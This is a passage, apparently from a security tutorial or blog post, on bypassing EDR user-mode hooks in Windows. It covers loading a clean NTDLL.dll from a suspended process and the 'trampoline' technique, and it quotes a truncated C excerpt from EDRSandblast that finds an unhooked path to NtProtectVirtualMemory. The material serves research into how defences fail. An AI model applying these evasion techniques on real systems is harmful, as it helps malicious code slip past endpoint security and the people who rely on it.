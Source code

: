 Alternatively, we can start up a suspended process and get a clean version (specifically of NTDLL.dll) that way. 

Why does this work? NTDLL.dll is one of the first DLLs to be loaded during process initialization, prior to any EDR’s DLLs which are typically what perform function hooking. When a process is created suspended, we halt the initialization just after NTDLL.dll has been loaded but prior to any other DLLs. This gives us a clean NTDLL.dll to work with as long as our sacrificial process remains suspended. 

However, while this still works in some cases, there are two problems with this approach.

First, EDRs can run integrity checks. This allows them to see that a function like `CreateRemoteThread` that _should_ be hooked is not hooked. 

The second problem is that to perform unhooking, we must use functions that are likely hooked in the first place, such as `VirtualProtect`.

Now, what do we do to get around these issues?

# Trampolines

We can simply choose not to unhook the functions. Instead, because we know the EDR needs to know _where_ (which memory address) to `jmp` to continue function execution flow (when it is safe to do so), we can use this fact to our advantage. 

We call this technique a trampoline because of the `jmp` assembly instruction being used.

Alternatively, we can create our own trampoline instead of using the EDR’s, however, doing it this way has the downside of needing to create an unbacked memory region with execute permissions. This leads to the same amount of scrutiny from EDRs we discussed above. 

An example from the [EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast/tree/master) Github (shortened for brevity):

```c
pNtProtectVirtualMemory getSafeVirtualProtectUsingTrampoline(DWORD unhook_method) {
    PE* ntdllPE_mem = NULL;
    PE* ntdllPE_disk = NULL;
    /*
* Get a view of ntdll.dll PE both on disk and in memory, while caching it for later access
* "Rebase" the disk version to the same base address of the memory-mapped one for coherence
*/
    getNtdllPEs(&ntdllPE_mem, &ntdllPE_disk);

    PVOID disk_NtProtectVirtualMemory = PE_functionAddr(ntdllPE_disk, "NtProtectVirtualMemory");
    PVOID mem_NtProtectVirtualMemory = PE_functionAddr(ntdllPE_mem, "NtProtectVirtualMemory");

    size_t patchSize = 0;
/*
* Return the address (in "mem") of the first difference between two memory ranges ("mem" & "disk") of size "len".
* If the "lenPatch" pointer is provided, also returns the number of consecutive bytes that differ
*/
    PVOID patchAddr = findDiff(mem_NtProtectVirtualMemory, disk_NtProtectVirtualMemory, PATCH_MAX_SIZE, &patchSize);

    if (patchSize == 0) {
        return (pNtProtectVirtualMemory)mem_NtProtectVirtualMemory;
    }

        PVOID trampoline = NULL;
/*
* Search for a piece of executable code starting with pattern followed by a jump to expectedTarget
*/
        trampoline = searchTrampolineInExecutableMemory((PBYTE)disk_NtProtectVirtualMemory + ((PBYTE)patchAddr - (PBYTE)mem_NtProtectVirtualMemory), patchSize, (PBYTE)patchAddr + patchSize);
        if (NULL == trampoline) {
```